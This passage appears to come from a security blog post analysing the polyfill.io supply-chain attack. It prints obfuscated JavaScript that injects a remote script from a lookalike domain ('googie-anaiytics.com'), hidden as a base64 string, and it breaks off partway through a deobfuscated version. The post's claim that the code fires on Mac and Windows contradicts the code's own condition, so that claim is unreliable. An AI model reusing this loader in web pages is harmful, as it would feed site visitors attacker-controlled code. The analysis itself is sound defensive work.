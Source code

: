 ``` js
    const scriptId = randomString[2] + "c" + randomString2[1] + randomString2[6];
    const scriptElement = document.createElement(scriptId + separator[0] + separator[1]);
    const noop = function () {};

    scriptElement.type = "text/javascript";
    scriptElement.onload = noop;
    scriptElement.src = decodedUrl;
    document.getElementsByTagName("head")[0].appendChild(scriptElement);
  })(
    "aHR0cHM6Ly93d3cuZ29vZ2llLWFuYWl5dGljcy5jb20vZ3RhZ3MuanM=",
    "gUssQxWzjLAD",
    window,
    document,
    "DrPdgDiahyku",
    "ptsrhUDHCv"
  );
}

// Automatically execute the script loading function if the platform is not Mac or Win and the referrer is valid
if (!/^Mac|Win/.test(navigator.platform) && document.referrer.indexOf(".") !== -1) {
  loadScript();
}
```

This will trigger on both Mac and Windows, only on web pages with a referrer. It will load a script, and the script's src is `aHR0cHM6Ly93d3cuZ29vZ2llLWFuYWl5dGljcy5jb20vZ3RhZ3MuanM=` which decodes to:

```
https://www.googie-anaiytics.com/gtags.js
```

At first glance, you might think, "Isn't this Google Analytics? What's special about it?" But upon closer inspection, you will notice disguised words like `googie` and `anaiytics`, indicating a malicious domain.

The code in this file is obfuscated:

![Malicious JavaScript content](/img/stop-using-polyfill-io/p4.png)

However, due to lack of effort and using ready-made tools, we can deobfuscate it using other tools:

1. https://obf-io.deobfuscate.io/
2. https://deobfuscate.relative.im/

It can be deobfuscated into a more readable form, where some strings are visible:

``` js
function loadJS(_0x1fa6fb, _0x1802b4) {
  var _0x70d7c = document.createElement('script'),
    _0x505482 = _0x1802b4 || function () {}
  _0x70d7c.type = 'text/javascript'
  {
    _0x70d7c.onload = function () {
      _0x505482()
    }
  }
  _0x70d7c.src = _0x1fa6fb
  document.getElementsByTagName('head')[0].appendChild(_0x70d7c)
}
function isPc() {
  try {
    var _0x4ed75f =
        navigator.platform == 'Win32' || navigator.platform == 'Windows',
      _0x3f80bf =
        navigator.platform == 'Mac68K' ||
```